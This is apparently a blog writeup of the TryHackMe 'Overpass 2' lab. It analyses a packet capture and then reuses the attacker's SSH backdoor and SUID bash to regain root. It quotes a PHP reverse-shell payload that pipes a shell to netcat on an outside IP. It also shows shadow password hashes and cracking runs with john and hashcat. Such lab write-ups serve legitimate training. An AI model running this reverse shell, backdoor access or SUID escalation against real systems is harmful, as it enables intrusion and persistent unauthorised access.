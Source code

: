 ```yaml
---
layout: project
type: project
image: images/writeups/thm/overpass-2/logo.png
title: Overpass 2 - TryHackMe
permalink: writeups/overpass-2
# All dates must be YYYY-MM-DD format!
date: 2021-04-20
labels:
  - TryHackMe
  - Forensics
  - Wireshark
summary: Overpass has been hacked! Can you analyse the attacker's actions and hack back in?
---
```


<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-2/header.png">
<script src="https://www.tryhackme.com/badge/192700"></script>

```
MACHINE = OVERPASS 2
TARGET = VARIABLE
OS = LINUX
DIFFICULTY = MEDIUM
```
## Forensics

I analyzed the pcap file using wireshark and found the web directory for the upload page at /development/upload.php and got the payload for the uploaded file 

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

I then got the password used to privesc to the user james. The attacker used the GitHub project [ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor) to gain persistence

```
james:XXXXX
```

I found the contents from the /etc/shadow file and tried cracking the hashes using john and fasttrack wordlist

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

```shell
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/2/forensics]
└─# john --wordlist=/opt/wordlists/fasttrack.txt hashes
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXX         (bee)
XXXXX          (szymex)
XXXXX         (muirland)
XXXXX        (paradox)
4g 0:00:00:00 DONE (2021-04-17 15:18) 14.81g/s 822.2p/s 4111c/s 4111C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Research

Time to analyse the code for the ssh-backdoor. I downloaded the code from the GitHub repo and went through the main.go code and got the default hash and the salt

```
Hash:
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

Salt:
1c362db832f3f864c8c2fe05f2002a05
```

Going through the pcap file on TCP Stream 3 I found the “backdoor -a” which from the source code outputs the backdoor hash

```shell
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

```

I used hashcat on my windows machine to crack the salted hash and got the password

```
Dictionary cache hit:
* Filename..: .\wordlists\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:XXXXX

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
```

## Attack

Starting with an nmap scan

```shell
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/2/attack]
└─# nmap -T4 -A 10.10.139.211 -oN nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 16:00 WAT
Nmap scan report for 10.10.139.211
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey:
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/17%OT=22%CT=1%CU=30256%PV=Y%DS=2%DC=T%G=Y%TM=607AF87
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   216.49 ms 10.8.0.1
2   216.41 ms 10.10.139.211

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.70 seconds
```

Going to the webpage I get the message from the hacker

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-2/1.png">

I tried logging in via ssh as the user james and with various passwords, the password that I cracked with haschat got me in but only on port 2222

```shell
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/2/attack]
└─# ssh -p 2222 james@overpass.thm
james@overpass.thm's password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$
james@overpass-production:/home/james$ cat user.txt
thm{d1...67}
```

The attacker left file named .suid_bash which had the suid bit set and was owned by root, executing the file with the correct flag gave a shell as root

```shell
james@overpass-production:/home/james$ ./.suid_bash  -p
.suid_bash-4.4# whoami
root
```